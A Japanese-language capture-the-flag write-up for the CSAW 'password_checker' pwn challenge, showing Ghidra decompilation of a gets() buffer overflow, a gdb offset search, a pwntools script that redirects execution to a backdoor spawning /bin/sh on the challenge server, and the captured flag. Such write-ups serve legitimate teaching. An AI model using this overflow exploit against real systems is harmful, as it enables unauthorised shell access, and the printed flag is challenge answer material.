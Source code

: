 # Writeup

実行ファイルが与えられる。

```bash
$ file password_checker
password_checker: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ec969a4c424dcdcec87e33a5f3ef64828de8d006, for GNU/Linux 3.2.0, not stripped
```

Ghidraで解析してみる。

```c
void password_checker(void)

{
  undefined8 local_a8;
  undefined local_a0;
  char local_78 [48];
  char local_48 [60];
  int local_c;
  
  printf("Enter the password to get in: \n>");
  gets(local_48);
  strcpy(local_78,local_48);
  local_a8 = 0x64726f7773736170;
  local_a0 = 0;
  local_c = strcmp(local_78,(char *)&local_a8);
  if (local_c == 0) {
    printf("You got in!!!!");
  }
  else {
    printf("This is not the password");
  }
  return;
}
```

とりあえず`password`と入力すればif文の中に入るが、何も起きない。

```bash
$ ./password_checker
Enter the password to get in:
>password
You got in!!!!%
```

他の関数を調べると、`backdoor`という関数があり、ここへ飛ばせば良さそうだということが分かった。

```c
void backdoor(void)

{
  system("/bin/sh");
  return;
}
```

`gets`関数でBOFができそうなので、`gdb-peda`を使って`RSP`を書き換えるためのoffsetを調べる。

```bash
gdb-peda$ patto IAAeAA4AAJAAfAA5AAKAAgAA6AAL
IAAeAA4AAJAAfAA5AAKAAgAA6AAL found at offset: 72
```

```py
from pwn import *

e = ELF('password_checker')
io = remote('pwn.chal.csaw.io', 5000)
io.recvuntil('>')

offset = b'a' * 72
payload = offset + p64(e.symbols['backdoor'])
io.sendline(payload)
io.interactive()
```

`backdoor`関数に飛んで、`/bin/sh`が実行されたのでフラグを調べる。

```bash
This is not the password
$ ls
flag.txt
password_checker
$ cat flag.txt
flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}
```

<!-- flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p} -->

